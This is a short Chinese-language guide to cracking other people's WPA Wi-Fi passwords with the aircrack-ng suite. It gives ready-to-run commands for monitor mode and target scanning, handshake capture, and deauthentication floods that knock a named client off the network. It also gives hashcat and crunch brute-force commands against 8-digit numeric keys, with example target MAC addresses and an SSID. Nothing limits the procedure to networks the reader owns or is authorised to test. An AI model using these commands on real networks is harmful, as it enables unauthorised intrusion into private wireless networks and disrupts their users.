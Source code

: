 # 破解 WIFI 密码

### 0. 查wlan0支持模式中有无监听（monitor）模式

`sudo iwconfig wlan0 mode`

### 1. 改成监听模式(改后wlan0就成了wlan0mon)

`sudo airmon-ng start wlan0`

### 2. 查看周围无线信息(也可以指定信道排除想排除的，例如 -c 1，只看信道为1的wifi连接情况;--bssid WIFI的MAC，只看某个WIFI的连接情况。)

`sudo airodump-ng wlan0mon`

记一两组想破解的BSSID（WIFI的MAC）和STATION（已连接的客户端MAC）

现以 `80:8F:1D:83:42:76` 和 `90:AD:F7:FA:8E:10` 为例。

最好也把WIFI名称（SSID）也记下来，例如：TP-LINK_4275，以备后用。

### 3. 模拟抓包(--ivs 包文件的格式为ivs，-c 指定为1信道，-w 指定包文件包为wifipass)

`sudo airodump-ng --ivs -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

此窗口不要关，再开窗口发攻击包，观察这里的右上角，看有无出现 handshake ，出现则是包被抓到，未出现则继续增加攻击包。

### 4. 发攻击包（-0 发99个包，不够再加，赋值为0的话就是一直发）

`sudo aireplay-ng -0 99 -a 80:8F:1D:83:42:76 -c 90:AD:F7:FA:8E:10 wlan0mon`

### 5. 跑密码
两种方式：
1. 用air自带的方式，需要字典文件 dict.txt，比较慢。

    `sudo aircrack-ng wifipass-01.ivs -w dict.txt`

2. 用 hashcat  的方式， -m 2500 就是模式为 WPA

    先用 aircrack-ng 转换包的格式
    
    `sudo aircrack-ng wifipass-01.ivs -J wifipass.hccap`

    再用 hashcat 跑8位的纯数字密码（进度可以按s查看）
    
    `hashcat -m 2500 -a 3 wifipass.hccap ?d?d?d?d?d?d?d?d`

    hashcat 字典模式
    
    `hashcat -m 2500 wifipass.hccap dict.txt`

    用 crunch 生成8位和9位的纯数字字典（第1个8为最少8位，第2个9为最多9位）
    
    `crunch 8 9 0123456789 -o dict.txt`

### 6. 退出监听模式
`sudo airmon-ng stop wlan0mon`

TP-LINK_4275
80:8F:1D:83:42:76
90:AD:F7:FA:8E:10